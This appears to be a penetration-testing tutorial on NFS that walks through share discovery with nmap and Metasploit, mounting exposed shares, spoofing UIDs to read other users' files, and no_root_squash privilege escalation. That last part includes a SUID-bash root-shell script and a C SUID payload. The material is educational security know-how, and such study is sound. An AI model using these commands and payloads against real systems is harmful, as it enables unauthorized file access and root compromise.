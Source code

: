 ```yaml
---
title: NFS Pentesting Best Practices
categories: [pentesting protocols,nfs]
tags: [pentesting,nfs,best practicies]
comments: true
---
```


# NFS

> NFS usually uses ports 111, 2049
{: .prompt-tip }

# What is NFS?

NFS (Network FileSysem) is a very stable and powerful file system for sharing storage devices of UNIX/Linux operating systems. Thanks to NFS; The same files can be accessed from multiple computers. It provides convenience in data storage. Instead of installing to the local disk for each application, it allows applications to be shared.

```bash
PORT     STATE SERVICE               VERSION
2049/tcp open  nfs    
```

# NFS Pentesting

| <img src="https://www.shodan.io/static/img/favicon.png" alt="https://www.shodan.io/static/img/favicon.png" width="20px" /> Shodan search query : |
| --- |
| port:2049 |

<h2>Misconfigured NFS</h2>

A lot of data is obtained in file sharing in most of the companies that are tested for network penetration.

<h3>NFS Service Detection in Network with Nmap</h3>

```bash
nmap -n -PN -sS -T5 -p 2049 --script=nfs-showmount 10.10.x.x/24
nmap --script=nfs-ls.nse,nfs-showmount.nse,nfs-statfs.nse -p 2049 10.10.x.x
```

![Untitled](/assets/img/pitcures/nfs/nfs.png)

<h3>Network NFS Service Detection with Metasploit</h3>

```bash
msf > use auxiliary/scanner/nfs/nfsmount
msf auxiliary(nfsmount) > set RHOSTS 10.10.x.x/24
msf auxiliary(nfsmount) > run
```

![Untitled](/assets/img/pitcures/nfs/nfs1.png)

<h3>NFS Shares Listing With "showmount"</h3>

```bash
showmount -e 10.10.x.x
```

![Untitled](/assets/img/pitcures/nfs/nfs2.png)

<h3>Access to discovered NFS shares</h3>

```bash
mount -t nfs 10.10.x.x:/export/home /mnt/connect_path
mount -t nfs -o vers=2 10.10.x.x:/export/home /mnt/connect_path -o nolock # You should specify to use version 2 because it doesn't have any authentication or authorization.
```

<h3>Access to discovered NFS shares with same user UID Permissions</h3>

In the terminal we can see the shared arguments and what UID value they belong to a user.

```bash
-rwxr----- 1923 1000 1898 example.doc
```

We see that there is a document. But we may need to open this doc file with a user with an authorized user UID. First of all, let's unmount the mount we mounted with the unmount command. Then let's create a user with the same UID value in the local system.

```bash
umount /connect_path
```

Yes, we have unmounted. Now let's create a user with the same UID value.

```bash
useradd newuser
```

setting the user UID value

```bash
usermod -u 1923 newuser
```

Connecting the share to the local system again after setting the UID value.

```bash
mount -t nfs 192.168.x.x:/export/home /home/newuser/Desktop/connect_path
```

<h2>NFS no_root_squash/no_all_squash misconfiguration PE</h2>

Read the `/etc/exports`{: .filepath}  file, if you find some directory that is configured as `no_root_squash`, then you can access it from as a client and write inside that directory as if you were the local root of the machine.

`no_root_squash`: This option basically gives authority to the root user on the client to access files on the NFS server as root. And this can lead to serious security implications.

**no_all_squash:** This is similar to no_root_squash option but applies to non-root users. Imagine, you have a shell as nobody user; checked `/etc/exports`{: .filepath} file; no_all_squash option is present; check /etc/passwd`{: .filepath} file; emulate a non-root user; create a suid file as that user (by mounting using nfs). Execute the suid as nobody user and become different user.

<h3>Privilege Escalation</h3>

Remote Exploit

If you have found this vulnerability, you can exploit it:

Mounting that directory in a client machine, and as root copying inside the mounted folder the `/bin/bash` binary and giving it SUID rights, and executing from the victim machine that bash binary.

```bash
#Attacker, as root user
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /bin/bash .
chmod +s bash

#Victim
cd <SHAREDD_FOLDER>
./bash -p #ROOT shell
```

**Mounting that directory** in a client machine, and as root copying inside the mounted folder our come compiled payload that will abuse the SUID permission, give to it **SUID** rights, and execute from the victim machine that binary (you can find here some C SUID payloads).

```c
//gcc payload.c -o payload
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

int main(){
    setuid(getuid());
    system("/bin/bash");
    return 0;
}
```